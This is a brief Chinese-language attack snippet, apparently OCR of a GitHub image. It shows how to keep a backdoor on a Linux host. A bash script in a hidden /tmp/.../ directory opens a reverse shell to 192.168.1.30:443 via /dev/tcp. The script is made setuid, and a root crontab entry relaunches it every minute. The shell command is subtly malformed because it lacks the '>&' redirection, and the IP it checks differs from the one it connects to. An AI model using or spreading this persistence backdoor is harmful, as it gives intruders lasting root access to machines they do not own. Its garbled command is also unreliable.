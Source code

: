 反弹shell+计划任务
```
#!/bin/bash
if netstat -ano | grep -v grep | grep "106.52.199.83" > /dev/null
then
echo "OK" > /dev/null
else
bash -i /dev/tcp/192.168.1.30/443 0>&1
fi
```
chmod +sx /tmp/.../.shell.sh
然后我们需要修改一下 /etc/crontab 让它定时执行。

nano /etc/crontab     在 /etc/crontab 文件末加入这一行。代表每 1 分钟执行一次。
*/1 * * * * root /tmp/.../.shell.sh

最后重启一下 crond 的服务。（不同发行版重启方式不一样，自行查询）
service cron reload
service cron start

